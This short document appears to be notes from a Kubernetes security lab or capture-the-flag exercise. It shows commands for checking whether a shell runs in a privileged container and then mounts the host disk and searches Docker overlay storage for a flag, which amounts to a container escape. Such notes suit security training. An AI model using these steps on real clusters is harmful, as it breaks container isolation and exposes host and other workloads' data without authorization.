 you are inside a privileged container:

```bash
ps -ef # pid is not initd
df -h # serviceaccount token
hostname # could be a giveaway
env # shows kube env vars
```

mount host fs

```bash
mkdir /mnt/hola
mount /dev/sda1 /mnt/hola
```

search for flag in docker overlay

```bash
grep -r songlaa /mnt/hola/var/lib/docker/
```
